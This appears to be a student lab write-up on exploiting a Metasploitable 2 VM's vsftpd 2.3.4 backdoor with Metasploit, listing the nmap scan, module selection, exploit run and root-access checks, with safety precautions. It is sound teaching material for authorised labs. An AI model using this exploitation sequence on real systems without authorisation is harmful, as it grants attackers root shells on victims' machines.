




# Experiment: Simulated Ethical Hacking with Metasploit

## Aim
To perform a safe, controlled exploitation of a vulnerable virtual machine using the Metasploit Framework and understand the basic ethical hacking workflow.

## Requirements
- Kali Linux (attacker machine)
- Metasploitable 2 (vulnerable target VM)
- VirtualBox/VMware, isolated Host-only/Internal network
- Target IP: `192.168.179.130`

> **Safety:** Only perform this against your own Metasploitable VM in an isolated lab network.

---

## Workflow

```
Reconnaissance → Identify vulnerable service → Select exploit →
Select payload → Configure target → Run exploit → Verify access → Document findings
```

## 1. Verify Connectivity
```bash
ping 192.168.179.130
```
Confirms Kali can reach the target.

## 2. Scan the Target
```bash
nmap -sS -sV -O 192.168.179.130
```
Identifies open ports and running service versions (e.g. FTP, SSH, Telnet, HTTP, Samba). This scan reveals **vsftpd 2.3.4** running on port 21 — a service with a known backdoor vulnerability.

## 3. Start Metasploit
```bash
msfconsole
```

## 4. Search and Select the Exploit
```text
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.179.130
set RPORT 21
```

## 5. Run the Exploit
```text
exploit
```
Metasploit spawns a backdoor shell and opens a command session on the target.

## 6. Verify Access
```bash
whoami
uname -a
ifconfig
```
Confirms remote command execution — output shows `root` access on the Metasploitable VM.

## 7. Exit the Session
```text
background
sessions -K
```

---

## Key Metasploit Commands

| Command | Purpose |
|---|---|
| `msfconsole` | Start Metasploit |
| `search <keyword>` | Search for modules |
| `use <module>` | Select a module |
| `show options` | Display required options |
| `set RHOSTS <IP>` | Set target IP |
| `run` / `exploit` | Execute the module |
| `sessions` | List active sessions |
| `sessions -i <ID>` | Interact with a session |
| `background` | Background current session |

---

## Result
The vulnerable Metasploitable VM was successfully exploited via the vsftpd 2.3.4 backdoor in an isolated lab environment, demonstrating the full ethical hacking workflow from reconnaissance to verified root access.

## Precautions
1. Target only the intentionally vulnerable Metasploitable VM.
2. Keep Kali and Metasploitable on an isolated network.
3. Never target systems without explicit authorization.
4. Verify the target IP before running any exploit.
5. Use this lab only for educational, authorized purposes.

---

## Screenshots

**1. Connectivity check (ping)**



**2. Nmap scan results**



**3. Metasploit exploit execution**



**4. Verified root access (whoami / uname / ifconfig)**


